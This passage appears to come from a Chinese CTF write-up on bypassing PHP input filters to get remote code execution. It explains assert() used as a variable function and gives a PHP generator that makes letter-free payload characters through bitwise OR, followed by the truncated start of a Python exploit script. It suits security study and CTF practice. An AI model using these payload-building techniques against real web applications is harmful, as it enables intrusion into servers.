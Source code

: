 - 这里使用的是 assert($_POST[ _ ]) 在PHP5当中assert()的作用和eval()相似都是执行，但是eval是因为是一个语言构造器而不是一个函数，不能被可变函数调用，所以这种拼接的方法只能用assert而不能用eval，只不过eval()只执行符合php编码规范的代码，同时这里使用变量进行payload拼接，拼接起来

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602164314723.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602164556266.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 或绕过
生成脚本

```php
<?php
$myfile = fopen("or_rce.txt", "w");
$contents="phpinfo";
for ($i=0; $i < 256; $i++) { 
    for ($j=0; $j <256 ; $j++) { 

        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[0-9a-z]/i';//根据题目给的正则表达式修改即可
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
    }
  
        else{
        $a='%'.$hex_i;
        $b='%'.$hex_j;
        $c=(urldecode($a)|urldecode($b));
        if (ord($c)>=32&ord($c)<=126) {
            $contents=$contents.$c." ".$a." ".$b."\n";
        }
    }

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

利用生成的数据构造脚本
```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("or_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
```